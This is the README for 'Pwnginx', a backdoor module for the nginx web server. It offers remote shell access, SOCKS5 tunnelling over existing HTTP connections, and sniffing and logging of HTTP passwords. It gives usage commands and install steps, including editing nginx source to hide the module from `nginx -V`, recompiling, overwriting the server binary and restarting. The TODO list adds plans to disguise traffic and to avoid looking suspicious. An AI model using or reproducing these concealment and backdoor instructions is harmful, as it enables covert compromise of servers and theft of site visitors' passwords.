 #[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get a shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port] [password]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [socks5ip] [socks5port] [password]


###Features:
    
* Remote shell access

* Socks5 tunneling via existing http connection

* Http password sniffing & logging

###INSTALL:

* Compile the client:

    $ cd client;make

* Edit source to hidden configure arguments:

    $ vim src/core/nginx.c
    
    Modify the `configure arguments` line into: `configure arguments: --prefix=/opt/nginx\n");` (original configure arguments shown in the result of `nginx -V`)

* Recompile nginx:

    $ cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module && make (There is no need to run `make install`)

    $ sudo cp -f objs/nginx /path/to/nginx/sbin/nginx

* Restart nginx
    $ sudo killall nginx && /path/to/nginx/sbin/nginx


###TODO:

* Pack communication traffic into HTTP protocol

* Full pty support

* Shell with root privilege(? There must be another stand-alone 'nginx: master process' running under root to support this function. Maybe that's too suspicious. Being considered.)
